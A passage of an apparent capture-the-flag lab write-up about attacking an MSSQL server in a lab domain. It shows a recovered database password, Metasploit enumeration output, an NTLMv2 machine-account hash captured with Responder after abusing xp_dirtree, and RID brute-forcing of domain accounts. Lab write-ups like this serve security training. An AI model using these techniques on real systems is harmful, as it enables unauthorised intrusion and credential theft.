Now that we found the DB credentials I guess we could potentially login into MSSQL:

```CS
static Database()
        {
            Database.IPAddress = "WEB\\WEBDB";
            Database.UserID = "webappusr";
            Database.Encrypt = true;
            Database.TrustServerCertificate = true;
            Database.Password = "d65f4sd5f1s!df1fsd65f1sd";
        }
```

And with those credentials we are in!



Now I decided to do some manual enumeration and checking for Linked services shows up some:



We know that webapp is not Admin:



I will use the help of Metasploit and do a standard enumeration:

```Bash
msf6 auxiliary(admin/mssql/mssql_enum) > run
[*] Running module against 10.13.37.12

[*] 10.13.37.12:1433 - Running MS SQL Server Enumeration...
[*] 10.13.37.12:1433 - Version:
[*]     Microsoft SQL Server 2019 (RTM-GDR) (KB4517790) - 15.0.2070.41 (X64) 
[*]             Oct 28 2019 19:56:59 
[*]             Copyright (C) 2019 Microsoft Corporation
[*]             Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)
[*] 10.13.37.12:1433 - Configuration Parameters:
[*] 10.13.37.12:1433 -  C2 Audit Mode is Not Enabled
[*] 10.13.37.12:1433 -  xp_cmdshell is Not Enabled
[*] 10.13.37.12:1433 -  remote access is Enabled
[*] 10.13.37.12:1433 -  allow updates is Not Enabled
[*] 10.13.37.12:1433 -  Database Mail XPs is Not Enabled
[*] 10.13.37.12:1433 -  Ole Automation Procedures are Not Enabled
[*] 10.13.37.12:1433 - Databases on the server:
[*] 10.13.37.12:1433 -  Database name:master
[*] 10.13.37.12:1433 -  Database Files for master:
[*] 10.13.37.12:1433 -          C:\Program Files\Microsoft SQL Server\MSSQL15.WEBDB\MSSQL\DATA\master.mdf
[*] 10.13.37.12:1433 -          C:\Program Files\Microsoft SQL Server\MSSQL15.WEBDB\MSSQL\DATA\mastlog.ldf
[*] 10.13.37.12:1433 -  Database name:tempdb
[*] 10.13.37.12:1433 -  Database Files for tempdb:
[*] 10.13.37.12:1433 -          C:\Program Files\Microsoft SQL Server\MSSQL15.WEBDB\MSSQL\DATA\tempdb.mdf
[*] 10.13.37.12:1433 -          C:\Program Files\Microsoft SQL Server\MSSQL15.WEBDB\MSSQL\DATA\templog.ldf
[*] 10.13.37.12:1433 -  Database name:model
[*] 10.13.37.12:1433 -  Database Files for model:
[*] 10.13.37.12:1433 -  Database name:msdb
[*] 10.13.37.12:1433 -  Database Files for msdb:
[*] 10.13.37.12:1433 -          C:\Program Files\Microsoft SQL Server\MSSQL15.WEBDB\MSSQL\DATA\MSDBData.mdf
[*] 10.13.37.12:1433 -          C:\Program Files\Microsoft SQL Server\MSSQL15.WEBDB\MSSQL\DATA\MSDBLog.ldf
[*] 10.13.37.12:1433 -  Database name:webapp
[*] 10.13.37.12:1433 -  Database Files for webapp:
[*] 10.13.37.12:1433 -          C:\Program Files\Microsoft SQL Server\MSSQL15.WEBDB\MSSQL\DATA\webapp.mdf
[*] 10.13.37.12:1433 -          C:\Program Files\Microsoft SQL Server\MSSQL15.WEBDB\MSSQL\DATA\webapp_log.ldf
[*] 10.13.37.12:1433 - System Logins on this Server:
[*] 10.13.37.12:1433 -  sa
[*] 10.13.37.12:1433 -  webappusr
[*] 10.13.37.12:1433 - Disabled Accounts:
[*] 10.13.37.12:1433 -  No Disabled Logins Found
[*] 10.13.37.12:1433 - No Accounts Policy is set for:
[*] 10.13.37.12:1433 -  webappusr
[*] 10.13.37.12:1433 - Password Expiration is not checked for:
[*] 10.13.37.12:1433 -  sa
[*] 10.13.37.12:1433 -  webappusr
[*] 10.13.37.12:1433 - System Admin Logins on this Server:
[*] 10.13.37.12:1433 -  sa
[*] 10.13.37.12:1433 - Windows Logins on this Server:
[*] 10.13.37.12:1433 -  No Windows logins found!
[*] 10.13.37.12:1433 - Windows Groups that can logins on this Server:
[*] 10.13.37.12:1433 -  No Windows Groups where found with permission to login to system.
[*] 10.13.37.12:1433 - Accounts with Username and Password being the same:
[*] 10.13.37.12:1433 -  No Account with its password being the same as its username was found.
[*] 10.13.37.12:1433 - Accounts with empty password:
[*] 10.13.37.12:1433 -  No Accounts with empty passwords where found.
[*] 10.13.37.12:1433 - Stored Procedures with Public Execute Permission found:
[*] 10.13.37.12:1433 -  sp_replsetsyncstatus
[*] 10.13.37.12:1433 -  sp_replcounters
[*] 10.13.37.12:1433 -  sp_replsendtoqueue
[*] 10.13.37.12:1433 -  sp_resyncexecutesql
[*] 10.13.37.12:1433 -  sp_prepexecrpc
[*] 10.13.37.12:1433 -  sp_repltrans
[*] 10.13.37.12:1433 -  sp_xml_preparedocument
[*] 10.13.37.12:1433 -  xp_qv
[*] 10.13.37.12:1433 -  xp_getnetname
[*] 10.13.37.12:1433 -  sp_releaseschemalock
[*] 10.13.37.12:1433 -  sp_refreshview
[*] 10.13.37.12:1433 -  sp_replcmds
[*] 10.13.37.12:1433 -  sp_unprepare
[*] 10.13.37.12:1433 -  sp_resyncprepare
[*] 10.13.37.12:1433 -  sp_createorphan
[*] 10.13.37.12:1433 -  xp_dirtree
[*] 10.13.37.12:1433 -  sp_replwritetovarbin
[*] 10.13.37.12:1433 -  sp_replsetoriginator
[*] 10.13.37.12:1433 -  sp_xml_removedocument
[*] 10.13.37.12:1433 -  sp_repldone
[*] 10.13.37.12:1433 -  sp_reset_connection
[*] 10.13.37.12:1433 -  xp_fileexist
[*] 10.13.37.12:1433 -  xp_fixeddrives
[*] 10.13.37.12:1433 -  sp_getschemalock
[*] 10.13.37.12:1433 -  sp_prepexec
[*] 10.13.37.12:1433 -  xp_revokelogin
[*] 10.13.37.12:1433 -  sp_execute_external_script
[*] 10.13.37.12:1433 -  sp_resyncuniquetable
[*] 10.13.37.12:1433 -  sp_replflush
[*] 10.13.37.12:1433 -  sp_resyncexecute
[*] 10.13.37.12:1433 -  xp_grantlogin
[*] 10.13.37.12:1433 -  sp_droporphans
[*] 10.13.37.12:1433 -  xp_regread
[*] 10.13.37.12:1433 -  sp_getbindtoken
[*] 10.13.37.12:1433 -  sp_replincrementlsn
[*] 10.13.37.12:1433 - Instances found on this server:
[*] 10.13.37.12:1433 - Default Server Instance SQL Server Service is running under the privilege of:
[*] 10.13.37.12:1433 -  xp_regread might be disabled in this system
[*] Auxiliary module execution completed
msf6 auxiliary(admin/mssql/mssql_enum) >
```

I see xp_dirtree active which can potentially be used to sniff the Hash of the account running the MSSQL:



We can grab the hash:

```Bash
[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.4]
    Responder IPv6             [dead:beef:2::1002]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-FTNNTZE7Y5Y]
    Responder Domain Name      [9DY8.LOCAL]
    Responder DCE-RPC Port     [45574]

[+] Listening for events...                                                                                                                                                                  

[SMB] NTLMv2-SSP Client   : 10.13.37.12
[SMB] NTLMv2-SSP Username : TEIGNTON\WEB$
[SMB] NTLMv2-SSP Hash     : WEB$::TEIGNTON:945afd6595b375ec:F010B724D2579DA64F47C90DBE5A4D0C:0101000000000000008BE73E70C1D901966653AF1A5B7DE90000000002000800390044005900380001001E00570049004E002D00460054004E004E0054005A004500370059003500590004003400570049004E002D00460054004E004E0054005A00450037005900350059002E0039004400590038002E004C004F00430041004C000300140039004400590038002E004C004F00430041004C000500140039004400590038002E004C004F00430041004C0007000800008BE73E70C1D90106000400020000000800300030000000000000000000000000300000E94A56C249BF23BB6969449CB208B431B4486AD7416C7BDE76EC42FB2D44071F0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0034000000000000000000
```

Unfortunately the Hash couldn't be cracked. Then I decided to enumerate for Domain users and found some AD users on the machine:

```Bash
msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts) > run
[*] Running module against 10.13.37.12

[*] 10.13.37.12:1433 - Attempting to connect to the database server at 10.13.37.12:1433 as webappusr...
[+] 10.13.37.12:1433 - Connected.
[*] 10.13.37.12:1433 - SQL Server Name: WEB
[*] 10.13.37.12:1433 - Domain Name: TEIGNTON
[+] 10.13.37.12:1433 - Found the domain sid: 01050000000000051500000061b42fbd6b1993786015fbd7
[*] 10.13.37.12:1433 - Brute forcing 10000 RIDs through the SQL Server, be patient...
[*] 10.13.37.12:1433 -  - TEIGNTON\Administrator
[*] 10.13.37.12:1433 -  - TEIGNTON\Guest
[*] 10.13.37.12:1433 -  - TEIGNTON\krbtgt
[*] 10.13.37.12:1433 -  - TEIGNTON\Domain Admins
[*] 10.13.37.12:1433 -  - TEIGNTON\Domain Users
[*] 10.13.37.12:1433 -  - TEIGNTON\Domain Guests
[*] 10.13.37.12:1433 -  - TEIGNTON\Domain Computers
[*] 10.13.37.12:1433 -  - TEIGNTON\Domain Controllers
[*] 10.13.37.12:1433 -  - TEIGNTON\Cert Publishers
[*] 10.13.37.12:1433 -  - TEIGNTON\Schema Admins
[*] 10.13.37.12:1433 -  - TEIGNTON\Enterprise Admins
[*] 10.13.37.12:1433 -  - TEIGNTON\Group Policy Creator Owners
[*] 10.13.37.12:1433 -  - TEIGNTON\Read-only Domain Controllers
[*] 10.13.37.12:1433 -  - TEIGNTON\Cloneable Domain Controllers
[*] 10.13.37.12:1433 -  - TEIGNTON\Protected Users
[*] 10.13.37.12:1433 -  - TEIGNTON\Key Admins
[*] 10.13.37.12:1433 -  - TEIGNTON\Enterprise Key Admins
[*] 10.13.37.12:1433 -  - TEIGNTON\RAS and IAS Servers
[*] 10.13.37.12:1433 -  - TEIGNTON\Allowed RODC Password Replication Group
[*] 10.13.37.12:1433 -  - TEIGNTON\Denied RODC Password Replication Group
[*] 10.13.37.12:1433 -  - TEIGNTON\WEB$
[*] 10.13.37.12:1433 -  - TEIGNTON\DnsAdmins
[*] 10.13.37.12:1433 -  - TEIGNTON\DnsUpdateProxy
[*] 10.13.37.12:1433 -  - TEIGNTON\jay.teignton
[*] 10.13.37.12:1433 -  - TEIGNTON\andy.teignton
[*] 10.13.37.12:1433 -  - TEIGNTON\karl.memaybe
[*] 10.13.37.12:1433 -  - TEIGNTON\abbie.buckfast
[*] 10.13.37.12:1433 -  - TEIGNTON\web_user
[*] 10.13.37.12:1433 -  - TEIGNTON\SQLServer2005SQLBrowserUser$WEB
[*] 10.13.37.12:1433 -  - TEIGNTON\Organization Management
[*] 10.13.37.12:1433 -  - TEIGNTON\Recipient Management
[*] 10.13.37.12:1433 -  - TEIGNTON\View-Only Organization Management
[*] 10.13.37.12:1433 -  - TEIGNTON\Public Folder Management
[*] 10.13.37.12:1433 -  - TEIGNTON\UM Management
[*] 10.13.37.12:1433 -  - TEIGNTON\Help Desk
[*] 10.13.37.12:1433 -  - TEIGNTON\Records Management
[*] 10.13.37.12:1433 -  - TEIGNTON\Discovery Management
[*] 10.13.37.12:1433 -  - TEIGNTON\Server Management
[*] 10.13.37.12:1433 -  - TEIGNTON\Delegated Setup
[*] 10.13.37.12:1433 -  - TEIGNTON\Hygiene Management
[*] 10.13.37.12:1433 -  - TEIGNTON\Compliance Management
[*] 10.13.37.12:1433 -  - TEIGNTON\Security Reader
[*] 10.13.37.12:1433 -  - TEIGNTON\Security Administrator
[*] 10.13.37.12:1433 -  - TEIGNTON\Exchange Servers
[*] 10.13.37.12:1433 -  - TEIGNTON\Exchange Trusted Subsystem
[*] 10.13.37.12:1433 -  - TEIGNTON\Managed Availability Servers
[*] 10.13.37.12:1433 -  - TEIGNTON\Exchange Windows Permissions
[*] 10.13.37.12:1433 -  - TEIGNTON\ExchangeLegacyInterop
[*] 10.13.37.12:1433 -  - TEIGNTON\$KI1000-SHVVQUKUC960
[*] 10.13.37.12:1433 -  - TEIGNTON\SM_4a997a00fc024b099
[*] 10.13.37.12:1433 -  - TEIGNTON\SM_7dba49afb4c947f7a
[*] 10.13.37.12:1433 -  - TEIGNTON\SM_12f74899b6274db88
[*] 10.13.37.12:1433 -  - TEIGNTON\SM_72cde2abddec42d4a
[*] 10.13.37.12:1433 -  - TEIGNTON\SM_9401c2e6b9724805a
[*] 10.13.37.12:1433 -  - TEIGNTON\SM_454e7a7e4816475ea
[*] 10.13.37.12:1433 -  - TEIGNTON\SM_8a90e6dd64e5406d8
[*] 10.13.37.12:1433 -  - TEIGNTON\SM_4df7b6640ddf4339a
[*] 10.13.37.12:1433 -  - TEIGNTON\SM_c582abdb807b451b8
[*] 10.13.37.12:1433 -  - TEIGNTON\$UI1000-J9B39SCSST0F
[*] 10.13.37.12:1433 -  - TEIGNTON\HealthMailbox4e81a23
[*] 10.13.37.12:1433 -  - TEIGNTON\HealthMailbox3d6da5f
[*] 10.13.37.12:1433 -  - TEIGNTON\HealthMailboxcdc6248
[*] 10.13.37.12:1433 -  - TEIGNTON\HealthMailboxeccbad8
[*] 10.13.37.12:1433 -  - TEIGNTON\HealthMailboxedb8d90
[*] 10.13.37.12:1433 -  - TEIGNTON\HealthMailboxc9697b1
[*] 10.13.37.12:1433 -  - TEIGNTON\HealthMailbox7f90f2b
[*] 10.13.37.12:1433 -  - TEIGNTON\HealthMailbox17357b3
[*] 10.13.37.12:1433 -  - TEIGNTON\HealthMailboxde571ab
[*] 10.13.37.12:1433 -  - TEIGNTON\HealthMailbox2142d67
[*] 10.13.37.12:1433 -  - TEIGNTON\HealthMailbox08f3e0a
```

XP_CMDSHELL is not active as expected:



And we don't have permissions to enable it:



We can't impersonate as anyone other:

```Bash
msf6 auxiliary(admin/mssql/mssql_escalate_execute_as) > run
[*] Running module against 10.13.37.12

[*] 10.13.37.12:1433 - Attempting to connect to the database server at 10.13.37.12:1433 as webappusr...
[+] 10.13.37.12:1433 - Connected.
[*] 10.13.37.12:1433 - Checking if webappusr has the sysadmin role...
[*] 10.13.37.12:1433 - You're NOT a sysadmin, let's try to change that.
[*] 10.13.37.12:1433 - Enumerating a list of users that can be impersonated...
[-] 10.13.37.12:1433 - Sorry, the current user doesn't have permissions to impersonate anyone.
[*] Auxiliary module execution completed
msf6 auxiliary(admin/mssql/mssql_escalate_execute_as) >
```

Now going back to those links we know there are 2:



The first one is the one for the Website(we are actually using it) and the other one for Clients, if we try to execute a command as webappusr:

Then checking deeper on all the possible permissions available on the server I see traces of external execution scripts:



This gives the opportunity to execute ex. some scripts in Python on the DB, let's see if we can do it:


I get an error, I will try download and use the SQL Visual Studio on my Windows machine and check for more options.

Indeed we can see more from SSMS:



I did some further enumeration and seems like Karl is available in the logins:

```BAsh
msf6 auxiliary(admin/mssql/mssql_enum_sql_logins) > run
[*] Running module against 10.13.37.12

[*] 10.13.37.12:1433 - Attempting to connect to the database server at 10.13.37.12:1433 as webappusr...
[+] 10.13.37.12:1433 - Connected.
[*] 10.13.37.12:1433 - Checking if webappusr has the sysadmin role...
[*] 10.13.37.12:1433 - webappusr is NOT a sysadmin.
[*] 10.13.37.12:1433 - Setup to fuzz 300 SQL Server logins.
[*] 10.13.37.12:1433 - Enumerating logins...
[+] 10.13.37.12:1433 - 36 initial SQL Server logins were found.
[*] 10.13.37.12:1433 - Verifying the SQL Server logins...
[+] 10.13.37.12:1433 - 17 SQL Server logins were verified:
[*] 10.13.37.12:1433 -  - ##MS_AgentSigningCertificate##
[*] 10.13.37.12:1433 -  - ##MS_PolicyEventProcessingLogin##
[*] 10.13.37.12:1433 -  - ##MS_PolicySigningCertificate##
[*] 10.13.37.12:1433 -  - ##MS_PolicyTsqlExecutionLogin##
[*] 10.13.37.12:1433 -  - ##MS_SQLAuthenticatorCertificate##
[*] 10.13.37.12:1433 -  - ##MS_SQLReplicationSigningCertificate##
[*] 10.13.37.12:1433 -  - ##MS_SQLResourceSigningCertificate##
[*] 10.13.37.12:1433 -  - ##MS_SmoExtendedSigningCertificate##
[*] 10.13.37.12:1433 -  - NT AUTHORITY\SYSTEM
[*] 10.13.37.12:1433 -  - NT SERVICE\SQLTELEMETRY$WEBDB
[*] 10.13.37.12:1433 -  - NT SERVICE\SQLWriter
[*] 10.13.37.12:1433 -  - NT SERVICE\Winmgmt
[*] 10.13.37.12:1433 -  - NT Service\MSSQL$WEBDB
[*] 10.13.37.12:1433 -  - TEIGNTON\Administrator
[*] 10.13.37.12:1433 -  - TEIGNTON\karl.memaybe
[*] 10.13.37.12:1433 -  - sa
[*] 10.13.37.12:1433 -  - webappusr
[*] Auxiliary module execution completed
```

From here I asked a nudge to the moderators and apparently going straight to MSSQL server was wrong so I will go back to HTTP.